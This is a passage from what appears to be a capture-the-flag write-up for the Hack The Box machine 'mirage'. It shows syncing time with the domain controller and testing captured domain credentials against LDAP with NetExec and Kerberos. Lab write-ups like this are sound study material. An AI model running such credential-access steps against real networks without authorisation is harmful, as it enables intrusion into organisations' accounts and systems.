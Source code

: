 ![JetStreamResult](assets/img/JetStreamResult.png)

---

## 🔐 Testing the new credentials (MITRE ATT&CK: Credential Access)

Ensure you are in time sync with the DC:

```bash
sudo ntpdate dc01.mirage.htb
```

**Result:**

```bash
2025-07-26 02:33:16.801412 (-0400) +111734.362817 +/- 0.008107 dc01.mirage.htb 10.10.11.78 s1 no-leap
CLOCK: time stepped by 111734.362817
CLOCK: time changed from 2025-07-24 to 2025-07-26
```

Lets test the captured credentials against `LDAP`.

```bash
nxc ldap 10.10.11.78 -u david.jjackson -p 'REDACTED' -k
```
